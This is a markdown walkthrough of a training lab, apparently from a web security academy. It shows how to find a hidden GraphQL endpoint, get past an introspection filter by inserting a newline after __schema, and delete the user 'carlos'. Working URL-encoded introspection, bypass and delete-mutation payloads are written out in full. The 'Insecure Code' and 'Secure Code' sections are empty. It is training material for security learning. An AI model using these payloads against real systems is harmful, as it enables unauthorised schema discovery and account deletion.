


## Finding a hidden GraphQL endpoint

### Objective:
- The user management functions for this lab are powered by a hidden GraphQL endpoint. 
- You won't be able to find this endpoint by simply clicking pages in the site. The endpoint also has some defenses against introspection.
- To solve the lab, find the hidden endpoint and delete **`carlos`**.

### Security Weakness:

### Exploitation Methodology:
1. In Repeater, send requests to some common GraphQL endpoint suffixes and inspect the results.
2. Note that when you send a GET request to **`/api`** the response contains a "**Query not present**" error. This hints that there may be a GraphQL endpoint responding to GET requests at this location.
3. Amend the request to contain a universal query. Note that, because the endpoint is responding to GET requests, you need to send the query as a URL parameter.
    For example: **`/api?query=query{__typename}`**.
4. Notice that the response confirms that this is a GraphQL endpoint: **`{ "data": { "__typename": "query" } }`**
5. Send a new request with a URL-encoded introspection query as a query parameter. For example:
```basic
/api?query=query+IntrospectionQuery+%7B%0D%0A++__schema+%7B%0D%0A++++queryType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++mutationType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++subscriptionType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++types+%7B%0D%0A++++++...FullType%0D%0A++++%7D%0D%0A++++directives+%7B%0D%0A++++++name%0D%0A++++++description%0D%0A++++++args+%7B%0D%0A++++++++...InputValue%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+FullType+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++description%0D%0A++fields%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++args+%7B%0D%0A++++++...InputValue%0D%0A++++%7D%0D%0A++++type+%7B%0D%0A++++++...TypeRef%0D%0A++++%7D%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++inputFields+%7B%0D%0A++++...InputValue%0D%0A++%7D%0D%0A++interfaces+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++enumValues%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++possibleTypes+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+InputValue+on+__InputValue+%7B%0D%0A++name%0D%0A++description%0D%0A++type+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++defaultValue%0D%0A%7D%0D%0A%0D%0Afragment+TypeRef+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++ofType+%7B%0D%0A++++kind%0D%0A++++name%0D%0A++++ofType+%7B%0D%0A++++++kind%0D%0A++++++name%0D%0A++++++ofType+%7B%0D%0A++++++++kind%0D%0A++++++++name%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A
```
6. Notice from the response that introspection is disallowed.

7. Modify the query to include a newline character after `__schema` and resend. For example:
```basic
/api?query=query+IntrospectionQuery+%7B%0D%0A++__schema%0a+%7B%0D%0A++++queryType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++mutationType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++subscriptionType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++types+%7B%0D%0A++++++...FullType%0D%0A++++%7D%0D%0A++++directives+%7B%0D%0A++++++name%0D%0A++++++description%0D%0A++++++args+%7B%0D%0A++++++++...InputValue%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+FullType+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++description%0D%0A++fields%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++args+%7B%0D%0A++++++...InputValue%0D%0A++++%7D%0D%0A++++type+%7B%0D%0A++++++...TypeRef%0D%0A++++%7D%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++inputFields+%7B%0D%0A++++...InputValue%0D%0A++%7D%0D%0A++interfaces+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++enumValues%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++possibleTypes+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+InputValue+on+__InputValue+%7B%0D%0A++name%0D%0A++description%0D%0A++type+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++defaultValue%0D%0A%7D%0D%0A%0D%0Afragment+TypeRef+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++ofType+%7B%0D%0A++++kind%0D%0A++++name%0D%0A++++ofType+%7B%0D%0A++++++kind%0D%0A++++++name%0D%0A++++++ofType+%7B%0D%0A++++++++kind%0D%0A++++++++name%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A
```
8. Notice that the response now includes full introspection details. This is because the server is configured to exclude queries matching the regex **`"__schema{"`**, which the query no longer matches even though it is still a valid introspection query.
9. Save the introspection response body as a local JSON file.
10. Go to the **InQL Scanner** tab and scan the saved file.
11. Browse the schema and find the **`getUser`** query.
12. In Repeater, send the `getUser` query to the endpoint you discovered. Note that you need to convert the query to URL encoding.
    For example: **`/api?query=query%20%7B%0A%09getUser(id%3A1334)%20%7B%0A%09%09id%0A%09%09username%0A%09%7D%0A%7D`**
13. Notice that the default **`1334`** user ID causes the API to return an error.
14. Test alternative user IDs until the API confirms **`carlos`** user ID. In this case, the relevant user ID is **`3`**.

15. In the **InQL Scanner** tab, browse the schema again and find the `deleteOrganizationUser` mutation. Notice that this mutation takes a user ID as a parameter.
16. In Repeater, send a **`deleteOrganizationUser`** mutation with a user ID of **`3`** to delete **`carlos`** and solve the lab. For example:
```basic
/api?query=mutation+%7B%0A%09deleteOrganizationUser%28input%3A%7Bid%3A+3%7D%29+%7B%0A%09%09user+%7B%0A%09%09%09id%0A%09%09%7D%0A%09%7D%0A%7D
```

> **🗒️ NOTE**
> Make sure the json response is properly formatted and doesn't contain any errors when saving to a local file. 
> Use https://www.urlencoder.org/ when url encoding queries. 

### Insecure Code:

### Secure Code:
